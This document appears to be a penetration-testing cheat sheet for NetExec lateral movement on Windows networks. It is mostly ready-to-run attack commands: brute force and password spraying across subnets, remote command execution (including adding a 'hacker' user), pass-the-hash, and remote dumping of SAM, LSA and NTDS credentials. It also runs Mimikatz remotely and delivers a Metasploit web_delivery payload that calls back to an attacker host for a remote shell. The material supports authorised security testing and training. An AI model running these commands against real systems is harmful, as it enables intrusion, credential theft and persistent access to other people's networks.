

<Callout type="info" title="MITRE ATT&CK Mapping">
[TA0008 Lateral Movement](https://attack.mitre.org/tactics/TA0008/)
</Callout>




---

## Installation

<Callout type="info" title="Installing NetExec">
NetExec is pre-installed on modern Kali Linux. If you need to install or update it:
</Callout>

<Tabs>
  <Tab title="Install via apt (Recommended)">
    ```bash
    sudo apt update && sudo apt install netexec -y
    ```
  </Tab>
  <Tab title="Install via pipx (Dev versions)">
    ```bash
    pipx install git+https://github.com/Pennyw0rth/NetExec
    ```
  </Tab>
</Tabs>

---

## Authentication & Initial Access

<Callout type="danger" title="Password Spraying & Brute Force">
Before moving laterally, you need valid credentials. NetExec excels at password spraying across subnets.

**Local vs. Domain Authentication:**
* Use `--local-auth` if the user is a local account on the target machine (e.g., Administrator).
* Omit it if the user is a domain account.
</Callout>

<Tabs>
  <Tab title="Brute Force (Local Auth)">
    ```bash
    nxc smb 192.168.1.0/24 -u administrator -p /usr/share/wordlists/unix_passwords.txt --local-auth
    ```
  </Tab>
  <Tab title="Password Spray (Domain)">
    *One password, many users.*
    ```bash
    nxc smb 192.168.1.0/24 -u users.txt -p 'Fall2023!' --continue-on-success
    ```
  </Tab>
</Tabs>

---

## Enumeration (Recon for Lateral Movement)

<Callout type="tip" title="Network & Share Enumeration">
Identify targets, open shares, and user sessions to plan your lateral movement path.
</Callout>

```bash
# Enumerate hosts where current user has local admin access
nxc smb 192.168.1.0/24 -u user -p pass --local-auth

# List shared folders and check read/write access
nxc smb 192.168.1.50 -u user -p pass --shares

# Enumerate logged on users (requires local admin)
nxc smb 192.168.1.50 -u user -p pass --loggedon-users

# List domain users (Requires domain credentials, no local admin needed)
nxc smb 192.168.1.50 -u user -p pass --users
nxc smb 192.168.1.50 -u user -p pass --groups
```

---

## Process Execution (Lateral Movement)

<Callout type="warning" title="Remote Command Execution">
Once valid credentials are obtained, you can execute commands on the remote target to move laterally. NetExec uses the `svcctl` Windows service (via SMB) or WMI to create and execute temporary processes.
</Callout>

<Tabs>
  <Tab title="CMD Execution (`-x`)">
    ```bash
    # Runs standard CMD commands
    nxc smb x.x.x.x -u administrator -p 'pass123' -x 'whoami'
    nxc smb x.x.x.x -u administrator -p 'pass123' -x 'net user hacker Pass123 /add'
    ```
  </Tab>
  <Tab title="PowerShell Execution (`-X`)">
    ```bash
    # Runs PowerShell commands
    nxc smb x.x.x.x -u administrator -p 'pass123' -X 'Get-Process'
    nxc smb x.x.x.x -u administrator -p 'pass123' -X 'hostname'
    ```
  </Tab>
  <Tab title="WMI Execution (Alternative to SMB)">
    *Useful if SMB (port 445) is blocked by the firewall, but WMI (port 135) is open.*
    ```bash
    nxc wmi x.x.x.x -u administrator -p 'pass123' -x 'whoami'
    ```
  </Tab>
</Tabs>

---

## Pass-the-Hash (PtH)

<Callout type="example" title="Lateral Movement using Hashes">
If you only have the NTLM hash (e.g., from LSASS dumping), NetExec allows you to authenticate and execute commands without knowing the plaintext password.
</Callout>

<Tabs>
  <Tab title="PtH via SMB">
    *Syntax: -H LMHASH:NTHASH (You can use 00000000000000000000000000000000 for LM)*
    ```bash
    nxc smb x.x.x.x -u administrator -H 00000000000000000000000000000000:NTLM_HASH -x 'whoami'
    ```
  </Tab>
  <Tab title="PtH via WMI">
    ```bash
    nxc wmi x.x.x.x -u administrator -H 00000000000000000000000000000000:NTLM_HASH -x 'ipconfig'
    ```
  </Tab>
</Tabs>

---

## Credential Dumping

<Callout type="bug" title="Extracting Secrets from Remote Targets">
If you have local admin privileges on the target, NetExec can remotely dump credentials from memory or registry.
</Callout>

```bash
# Dump LSA secrets (often contains cached credentials)
nxc smb x.x.x.x -u administrator -p 'pass123' --lsa

# Dump SAM database (local account hashes)
nxc smb x.x.x.x -u administrator -p 'pass123' --sam

# Dump NTDS.dit (Domain Controller Hashes)
nxc smb x.x.x.x -u administrator -p 'pass123' --ntds
```

---

## NetExec Modules & Payload Delivery

<Callout type="success" title="Using Modules for Payload Delivery & Privilege Escalation">
NetExec allows executing custom scripts (modules) on the target. This is highly useful for delivering Metasploit payloads, running Mimikatz, or enabling features like RDP.
</Callout>

**List available modules:**
```bash
nxc smb -L
```

<Tabs>
  <Tab title="Metasploit Integration (web_delivery)">
    *Delivers a Metasploit payload directly into memory via SMB.*
    <Steps>
      <Step title="Step 1: Start Metasploit Web Delivery Handler">
        ```bash
        msfconsole -qx "use exploit/multi/script/web_delivery;set lhost <KALI_IP>;set lport 4444;set target 2;exploit"
        ```
      </Step>
      <Step title="Step 2: Execute NetExec Module on the target">
        ```bash
        nxc smb x.x.x.x -u administrator -p 'pass123' -M web_delivery -o URL=http://<KALI_IP>/wdjghd
        ```
      </Step>
    </Steps>
  </Tab>

  <Tab title="Executing Mimikatz Remotely">
    ```bash
    # Runs the mimikatz module on the target to dump credentials
    nxc smb x.x.x.x -u administrator -p 'pass123' -M mimikatz
    ```
  </Tab>

  <Tab title="Enabling RDP Remotely">
    *Privilege Escalation/Lateral Movement*
    ```bash
    # Enable RDP service on the target
    nxc smb x.x.x.x -u administrator -p 'pass123' -M rdp -o ACTION=enable

    # Connect to the target via RDP
    xfreerdp /u:administrator /p:pass123 /v:x.x.x.x
    ```
  </Tab>
</Tabs>
